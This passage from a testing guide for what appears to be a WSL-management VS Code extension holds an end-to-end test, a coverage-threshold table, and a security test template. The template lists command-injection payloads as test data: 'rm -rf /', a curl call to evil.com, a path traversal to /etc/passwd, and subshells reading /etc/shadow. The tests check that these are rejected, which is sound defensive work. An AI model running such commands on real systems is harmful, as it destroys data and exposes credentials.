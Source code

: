 ```typescript

        // Step 4: Enter Name
        await workbench.inputBox.setValue('TestProject');
        await workbench.inputBox.confirm();

        // Step 5: Verify Creation
        await browser.waitUntil(
            async () => await wslSidebar.hasDistribution('TestProject'),
            { timeout: 30000, timeoutMsg: 'Distribution not created' }
        );

        // Step 6: Validate State
        const distro = await wslSidebar.getDistribution('TestProject');
        expect(distro.state).toBe('Running');
    });
});
```

### Security Test Template

```typescript
describe('Security - Input Sanitization', () => {
    const maliciousInputs = [
        { input: 'test; rm -rf /', description: 'Command injection' },
        { input: 'test && curl evil.com', description: 'Command chaining' },
        { input: '../../../etc/passwd', description: 'Path traversal' },
        { input: 'test`whoami`', description: 'Command substitution' },
        { input: 'test$(cat /etc/shadow)', description: 'Subshell execution' }
    ];

    maliciousInputs.forEach(({ input, description }) => {
        it(`should prevent ${description}`, async () => {
            await expect(wslManager.createDistribution(input))
                .rejects
                .toThrow('Invalid distribution name');
        });
    });
});
```

## Coverage Requirements

### Minimum Thresholds

| Metric | Global | Critical Path | Security |
|--------|--------|---------------|----------|
| Lines | 80% | 100% | 100% |
| Branches | 80% | 100% | 100% |
| Functions | 80% | 95% | 100% |
| Statements | 80% | 100% | 100% |
